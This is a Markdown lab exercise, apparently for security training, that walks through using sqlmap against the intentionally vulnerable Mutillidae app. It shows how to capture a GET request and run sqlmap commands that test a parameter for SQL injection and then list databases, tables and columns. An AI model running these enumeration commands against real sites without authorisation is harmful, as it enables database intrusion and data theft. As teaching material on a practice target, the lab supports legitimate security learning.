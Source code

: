 # Lab1: Using sqlmap#

----------

1. Open Firefox (`<ALT>+<F2>`) and navigate to *Mutillidae* app (host_ip/mutillidae/)

    ![](img/lab1/mutilidae.PNG)

2. In navigation menu on the left, navigate to *OWASP 2013 > A1 - Injection(SQL) > SQLMAP Practice > User info (SQL)*

    ![](img/lab1/user_info_log_in.PNG)

3. Enter random username and password and click **View Account Details**

4. *Authentication Error* will pop up, but also *GET* request will appear in navigation bar

    ![](img/lab1/get_request.PNG)

5. Open virtual console
6. Open *SQLmap* help to display basic commands: `sqlmap -h` and press `<enter>`

7. Enter `sqlmap -u <get-request> -p <test-parameter>`, and press `<enter>`(if asked for additional test inclusions, press `<enter>` to continue). **NOTE**: copy complete *GET* request (step 4.) from navigation bar.

    ![](img/lab1/sqlmap_attack.PNG)
	Results are listed below with information if specified parameter is vulnerable to SQL attack.

8. To fetch database names add `--dbs` to the end of previous command `sqlmap -u <get-request> -p <test-parameter> --dbs` and execute

9. To fetch table names from specific database use following command `sqlmap -u <get-request> -p <test-parameter> -D <database-name> --tables` and execute

10. To fetch column names from specific table, from specific database, use following command `sqlmap -u <get-request> -p <test-parameter> -D <database-name> -T <table-name> --columns` and execute

[Back to the Main page](README.md "Main page")